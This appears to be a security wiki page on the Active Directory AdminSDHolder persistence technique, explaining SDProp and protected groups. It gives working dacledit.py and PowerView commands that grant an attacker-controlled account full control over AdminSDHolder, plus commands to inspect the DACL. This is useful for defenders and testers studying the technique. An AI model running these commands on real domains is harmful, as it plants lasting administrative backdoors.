 # AdminSDHolder

## Theory

AdminSdHolder protects domain objects against permission changes. "AdminSdHolder" either refers to a domain object, a "worker code" or an operation depending on the context.&#x20;

The operation consists in the PDC (Principal Domain Controller) Emulator restoring pre-set permissions for high-privilege users every 60 minutes. Understanding what DACLs/ACEs are and how to abuse them is a requirement to the understanding of this persistence technique (see [Access Controls abuse](../movement/dacl/)).

The operation is conducted by a "worker code" called **SDProp** (Security Descriptor propagator).&#x20;

SDProp propagates AdminSdHolder's DACL to every protected object every 60 minutes if their DACL is different.

The AdminSdHolder object is located at `CN=AdminSdHolder,CN=SYSTEM,DC=DOMAIN,DC=LOCAL`. For instance, the default AdminSdHolder object's DACL contains the following.

* Authenticated Users: **Read**
* SYSTEM: **Full Control**
* Administrators: **Modify**
* Domain Admins: **ReadAndExecute**
* Enterprise Admins: **ReadAndExecute**

The default protected objects are the following.

* member users (possibly nested) of the following groups: `Account Operators`, `Administrators`, `Backup Operators`, `Domain Admins`, `Domain Controllers`, `Enterprise Admins`, `Print Operators`, `Read-only Domain Controllers`, `Replicator`, `Schema Admins`, `Server Operators`
* the following users: `Administrator`, `krbtgt`

{% hint style="info" %}
When talking about `AdminSdHolder`, the `AdminCount` attribute is usually mentioned. This attribute is automatically set on an object when adding it to a protected group. Originally, the purpose was to improve SDProp's performance. `AdminCount` cannot be used for malicious purposes and is now mainly informative.

Also, `AdminCount` will block inheritance. This means that setting inheritence in the ACE added to `AdminSdHolder` will be mostly useless. For instance, domain controllers objects are part of the Domain Controller group (at `CN=Domain Controllers,CN=Users`) which has `AdminCount` set to 1. While a new ACE set to `AdminSdHolder` will propagate to the group, its members will not inherit it.
{% endhint %}

## Practice

Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL.&#x20;

Let's say an attacker adds the following ACE to AdminSdHolder's DACL: `attackercontrolleduser: Full Control`.

At the next run of SDProp, `attackercontrolleduser` will have a `GenericAll` privilege over all protected objects (Domain Admins, Account Operators, and so on).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

:warning: _At the time of writing, May 2nd 2022, the_ [_Pull Request (#1291)_](https://github.com/SecureAuthCorp/impacket/pull/1291) _is still pending._

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```

AdminSdHolder's DACL can then be inspected with the same utility.

```bash
dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```
{% endtab %}

{% tab title="Windows" %}
This can be done in PowerShell with `Add-DomainObjectAcl` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All
```

AdminSdHolder's DACL can then be inspected with `Get-DomainObjectAcl`.

```powershell
# Inspect all AdminSdHolder's DACL
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

# Inspect specific rights an object has on AdminSdHolder (example with a user)
sid = Get-DomainUser "someuser" | Select-Object -ExpandProperty objectsid
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid}
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=1906" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence" %}
